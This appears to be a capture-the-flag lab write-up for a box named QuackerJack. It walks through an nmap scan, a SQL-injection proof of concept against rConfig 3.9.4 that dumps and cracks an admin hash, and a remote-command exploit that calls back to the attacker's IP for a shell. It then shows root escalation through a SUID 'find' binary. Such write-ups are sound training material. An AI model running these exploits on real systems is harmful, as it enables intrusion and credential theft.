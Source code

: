 # QuackerJack

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.233.57 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 16:48 +08
Nmap scan report for 192.168.233.57
Host is up (0.17s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
8081/tcp open  blackice-icecap
```

### FTP Anonymous Fail

The FTP service does allow anonymous logins, but it just hangs:

```
$ ftp 192.168.233.57
Connected to 192.168.233.57.
220 (vsFTPd 3.0.2)
Name (192.168.233.57:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||32438|).
```

Nothing much there.

### SQL Injection --> RCE

Port 8081 was hosting an `rConfig` instance:

<figure><img src="../../../.gitbook/assets/image (10) (11).png" alt=""><figcaption></figcaption></figure>

This version was vulnerable to a few exploits:

```
$ searchsploit rConfig 3.9.4
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
rConfig 3.9.4 - 'search.crud.php' Remote Command Injection | php/webapps/48241.py
rConfig 3.9.4 - 'searchField' Unauthenticated Root Remote  | php/webapps/48261.py
----------------------------------------------------------- ---------------------------------
```

The bottom one just didn't work, while the top one requires credentials to work. There a few other exploits that I found online, such as an SQL Injection here:

{% embed url="https://www.exploit-db.com/exploits/48208" %}

The above exploit was tested on Version 3.9.4, so it should work.

```
$ python3 sql.py https://192.168.233.57:8081
rconfig 3.9 - SQL Injection PoC
[+] Triggering the payloads on https://192.168.233.57:8081/commands.inc.php
[+] Extracting the current DB name :
rconfig
[+] Extracting 10 first users :
admin:1:dc40b85276a1f4d7cb35f154236aa1b2
```

The above hash is crackable on CrackStation.

<figure><img src="../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

We can then run the RCE exploit `48241.py`:

```
$ python3 48241.py https://192.168.233.57:8081 admin abgrtyu 192.168.45.161 21
```

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

## Privilege Escalation

### Find SUID --> Root Shell

We can enumerate for SUID binaries on this machine:

```
bash-4.2$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/find
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/su
/usr/bin/sudo
/usr/bin/mount
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/fusermount
/usr/sbin/unix_chkpwd
/usr/sbin/pam_timestamp_check
/usr/sbin/usernetctl
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
```

We can run `find` as the `root` user. Following GTFOBins, we just need to run this:

```
./find . -exec /bin/sh -p \; -quit
```

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

Rooted!
